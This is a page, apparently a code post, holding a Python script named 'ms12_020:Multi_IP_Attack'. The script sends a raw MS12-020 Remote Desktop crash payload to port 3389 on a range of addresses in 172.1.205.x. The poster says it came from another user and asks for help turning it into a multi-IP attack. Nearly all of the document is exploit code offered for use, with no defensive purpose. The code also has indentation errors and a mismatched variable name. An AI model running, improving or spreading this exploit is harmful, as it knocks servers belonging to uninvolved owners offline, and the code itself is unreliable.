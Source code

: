 # ms12_020:Multi_IP_Attack


#!/usr/bin/env python
import socket,sys
payload="\x03\x00\x00\x13\x0e\xe0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00\x03\x00\x01\xd6\x02\xf0\x80\x7f\x65\x82\x01\x94\x04\x01\x01\x04\x01\x01\x01\x01\xff\x30\x19\x02\x04\x00\x00\x00\x00\x02\x04\x00\x00\x00\x02\x02\x04\x00\x00\x00\x00\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x00\x02\x04\x00\x00\x00\x01\x02\x02\xff\xff\x02\x04\x00\x00\x00\x02\x30\x19\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x00\x02\x04\x00\x00\x00\x01\x02\x02\x04\x20\x02\x04\x00\x00\x00\x02\x30\x1c\x02\x02\xff\xff\x02\x02\xfc\x17\x02\x02\xff\xff\x02\x04\x00\x00\x00\x01\x02\x04\x00\x00\x00\x00\x02\x04\x00\x00\x00\x01\x02\x02\xff\xff\x02\x04\x00\x00\x00\x02\x04\x82\x01\x33\x00\x05\x00\x14\x7c\x00\x01\x81\x2a\x00\x08\x00\x10\x00\x01\xc0\x00\x44\x75\x63\x61\x81\x1c\x01\xc0\xd8\x00\x04\x00\x08\x00\x80\x02\xe0\x01\x01\xca\x03\xaa\x09\x04\x00\x00\xce\x0e\x00\x00\x48\x00\x4f\x00\x53\x00\x54\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x0c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\xca\x01\x00\x00\x00\x00\x00\x10\x00\x07\x00\x01\x00\x30\x00\x30\x00\x30\x00\x30\x00\x30\x00\x2d\x00\x30\x00\x30\x00\x30\x00\x2d\x00\x30\x00\x30\x00\x30\x00\x30\x00\x30\x00\x30\x00\x30\x00\x2d\x00\x30\x00\x30\x00\x30\x00\x30\x00\x30\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\xc0\x0c\x00\x0d\x00\x00\x00\x00\x00\x00\x00\x02\xc0\x0c\x00\x1b\x00\x00\x00\x00\x00\x00\x00\x03\xc0\x2c\x00\x03\x00\x00\x00\x72\x64\x70\x64\x72\x00\x00\x00\x00\x00\x80\x80\x63\x6c\x69\x70\x72\x64\x72\x00\x00\x00\xa0\xc0\x72\x64\x70\x73\x6e\x64\x00\x00\x00\x00\x00\xc0\x03\x00\x00\x0c\x02\xf0\x80\x04\x01\x00\x01\x00\x03\x00\x00\x08\x02\xf0\x80\x28\x03\x00\x00\x0c\x02\xf0\x80\x38\x00\x06\x03\xef\x03\x00\x00\x0c\x02\xf0\x80\x38\x00\x06\x03\xeb\x03\x00\x00\x0c\x02\xf0\x80\x38\x00\x06\x03\xec\x03\x00\x00\x0c\x02\xf0\x80\x38\x00\x06\x03\xed\x03\x00\x00\x0c\x02\xf0\x80\x38\x00\x06\x03\xee\x03\x00\x00\x0b\x06\xd0\x00\x00\x12\x34\x00"
for i in range(101,150):
	try:
    HOST = "172.1.205."+str(i)
    n = 1
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(3)
		s.connect((str(host),3389))
		print ("Sending: %d packets" %n)
		s.send(payload)		
		rec = s.recv(1024)
		s.close()
		n += 1
	except: 
		print ("The Server is down")




This obj is my first python and its from other user, i want to become multi IP attack      , i speak poor English :p and i hope everyone can give some suggest to change it
